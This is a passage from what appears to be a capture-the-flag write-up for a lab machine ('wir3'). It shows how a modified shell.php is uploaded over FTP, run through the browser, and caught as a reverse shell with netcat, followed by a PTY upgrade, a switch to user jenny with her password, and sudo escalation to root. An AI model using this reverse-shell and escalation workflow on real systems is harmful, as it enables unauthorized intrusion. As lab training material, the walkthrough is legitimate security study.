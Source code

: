 ![14](https://github.com/Knign/Write-ups/assets/110326359/2b365513-6f7d-472c-9900-0063ed6c5bd6)

- We set he IP address to our `tun0` interface and the port to any port we like.
- Let's upload the modified `shell.php` using the `put` command.
```
ftp> put shell.php
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5494        3.20 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (19.89 KiB/s)
```
- We have successfully uploaded our `shell.php` file to the FTP server. 
- Let's start listening for connections using `nc`.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```
- Now we have to download the shell through our browser.

![15](https://github.com/Knign/Write-ups/assets/110326359/cfa0e924-1c2b-4aad-b37f-a7771f0edac7)

- Let's check our listener.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.108.36] 49210
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 11:51:14 up 31 min,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
- Let's het a bash shell and switch user to `jenny`.
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$ su jenny
su jenny
Password: 987654321

jenny@wir3:/$ 
```
- Let's check what files `jenny` can execute without the password.
```
jenny@wir3:/$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
```
- We have permissions to switch user to `root`.
```
jenny@wir3:/$ sudo su
sudo su
root@wir3:/# 
```